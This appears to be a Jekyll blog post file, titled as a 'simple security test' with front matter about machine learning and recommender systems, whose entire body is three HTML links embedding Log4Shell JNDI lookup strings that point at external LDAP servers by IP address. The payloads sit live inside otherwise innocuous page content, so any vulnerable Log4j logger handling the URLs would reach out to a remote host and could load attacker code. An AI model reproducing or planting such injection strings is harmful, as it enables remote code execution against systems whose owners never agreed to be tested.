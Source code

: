 ```yaml
---
layout: post
title: A simple security test, will be deleted
categories: [machine learning, python]
tags: [python, recommender system, sparse matrix]
description: In this article ... we make a simple test
comments: true
---
```


This is a simple test, you know:
<a href="https://datadome.co/${jndi:ldap://49.146.164.160/a}">Test 1</a>
<a href="https://datadome.co/${jndi:ldap://49.146.164.161/a}">Test 2</a>
<a href="https://datadome.co/${jndi:ldap://49.146.164.162/a}">Test 3</a>



